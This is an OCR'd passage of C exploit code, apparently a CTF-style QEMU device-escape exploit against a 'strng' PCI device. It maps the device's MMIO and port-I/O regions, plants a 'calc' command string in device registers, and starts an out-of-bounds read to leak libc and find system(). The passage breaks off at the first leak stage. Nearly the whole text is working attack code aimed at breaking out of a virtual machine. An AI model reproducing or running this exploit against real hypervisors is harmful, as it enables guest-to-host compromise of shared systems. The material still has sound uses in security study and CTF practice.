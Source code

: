 ```c
{
    return *addr;
}

void pmio_write(uint32_t port, uint32_t val)
{
    outl(val, port);
}

uint32_t pmio_read(uint32_t port)
{
    return inl(port);
}

int main(int argc, char **argv, char **envp)
{
    uint64_t    mmio_addr;
    uint32_t    pmio_port = 0xc050;
    int         mmio_fd;
    uint32_t    srand_addr_low, srand_addr_high;
    uint64_t    srand_addr;
    uint64_t    libc_addr;
    uint64_t    system_addr;

    /*
     * initialization
     */
    mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0",
            O_RDWR | O_SYNC);
    if (mmio_fd < 0) {
        errExit("failed to open mmio file! wrong path or no root?");
    }
    
    if (iopl(3) < 0) {
        errExit("failed to change i/o privilege! no root?");
    }

    mmio_addr = (uint64_t)
            mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_addr == MAP_FAILED) {
        errExit("failed to mmap mmio space!");
    }

    /*
     * regs[3] is not writable, because for addr 3 the rand_r() will be called
     * so we fill some useless string there
     */
    for (int i = 0; i < 4; i++)
        mmio_write((uint32_t*)(mmio_addr + ((2 + i) << 2)), (uint32_t*)"aaaa");

    for (int i = 0; i < 10; i++)
        mmio_write((uint32_t*)(mmio_addr + ((6 + i) << 2)), ((uint32_t*)calc_str)[i]);

    /*
     * exploitation
     */
    
    /*
     * Stage.I - leaking libc addr
     * set the strng->addr by pmio_write to a oob val
     * so that we can make an oob read by pmio_read
     */
    puts("[*] Stage.I - leaking libc addr\n");
```